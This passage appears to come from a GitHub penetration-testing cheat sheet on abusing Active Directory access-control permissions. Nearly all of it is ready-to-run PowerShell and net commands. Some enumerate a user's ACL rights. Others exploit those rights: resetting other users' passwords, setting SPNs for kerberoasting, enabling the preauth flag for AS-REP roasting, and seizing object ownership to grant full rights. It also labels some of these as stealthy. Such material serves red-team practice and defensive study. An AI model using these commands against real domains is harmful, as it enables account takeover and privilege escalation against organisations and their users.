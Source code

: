 ````
- https://github.com/cyberark/ACLight
```
Import-Module ACLight2.psm1
Start-ACLAnalysis
```

### Specific ACL permissions
#### Scan for specific ACL permissions the user has
```
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN> | Select-Object ObjectDN, ActiveDirectoryRights, IdentityreferenceName | Where-Object -Property IdentityreferenceName -Match <USERNAME>

Get-DomainObjectAcl -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "<SID>"} | select-object ObjectDN, ObjectAceType
```

#### Scan for all ACL permissions of the user has on another specific object
- First get the SID of the user you want to check if he has permissions on target user
```
Get-Domainuser <USERNAME> | Select-Object samaccountname, objectsid
Get-DomainObjectAcl -SamAccountName <TARGET USER> -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "<SID>"}
```

### ACL abuses
- In case you have a GenericAll permission on a user, you can:
  - Set a SPN on behalf of that user and crack it (stealthy method)
  - Change his password and log in as that user (not stealthy but immediate access is given)
- Force-ChangePassword privilege can also allow you to change the password of a user
- In case you have a GenericAll permission on a Group, Write permission, Write-Owner permission or Self permission, you can
  - Add yourself to this group, and as a result obtain the privileges that this group possesses.
- In case you have WriteOwner permissions you can add a owner to the object.

### Permissions on a user
#### Generic all / Force Change Password / AllExtendedRights - Reset password of a user
```
net user <USERNAME> <PASSWORD> /domain

$UserPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
Set-DomainUserPassword -Identity <USERNAME> -AccountPassword $UserPassword
```

#### Generic write - Set SPN for user
- For example service ```HTTP/jumpbox```
- Then kerberoast the user [Kerberoast](#Kerberoast) 
- Execute command again to revert it
```
Set-DomainObject -Identity <USERNAME> -Set @{serviceprincipalname='<SERVICE>/<SPN>1'}
```

#### Generic write - Add preauthnotreq flag
- Then as-repreoast the user [AS-REP Roasting](#AS-REP-Roasting) 
- Execute command again to revert it
```
Set-DomainObject -Identity <USERNAME> -XOR @{useraccountcontrol=4194304} -Verbose
```

#### Write owner - Change owner and give generic all
- Use ```Remove-ObjectAcl``` and ```Set-DomainObjectOwner``` again to remove the ACL's
```
Set-DomainObjectOwner -Identity <TARGET> -OwnerIdentity <NEW OWNER> -Verbose
Add-DomainObjectAcl -TargetIdentity <TARGET> -PrincipalIdentity <USER> -Rights All -Verbose

# Check who is owner 
````